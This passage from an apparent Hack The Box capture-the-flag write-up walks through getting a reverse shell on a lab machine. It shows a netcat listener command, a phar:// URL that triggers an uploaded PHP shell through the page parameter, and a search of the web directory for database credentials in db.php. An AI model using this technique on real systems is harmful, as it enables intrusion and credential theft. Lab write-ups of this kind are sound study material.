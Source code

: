 ![loggedin](https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/ticket.png)

Click on the ticket and copy the shell.zip file path 
```
http://itrc.ssg.htb/uploads/b1b6433555455fe26b08ad6b9290c333268597ec.zip
```
modify the above path with PHAR (PHP Archive) payload and open a netcat listner 
```
nc -lnvp 6969
```


so if your file name is shell.php then you should execute as "hash.zip/shell"

```
http://itrc.ssg.htb/?page=phar://uploads/b1b6433555455fe26b08ad6b9290c333268597ec.zip/shell
```
Voila got the reverse shell

in the home dir there are two users 
```
msainristil
zzinter
```

exploring the web dir in /var/www/itrc/
 found db.php with mysql db user pass
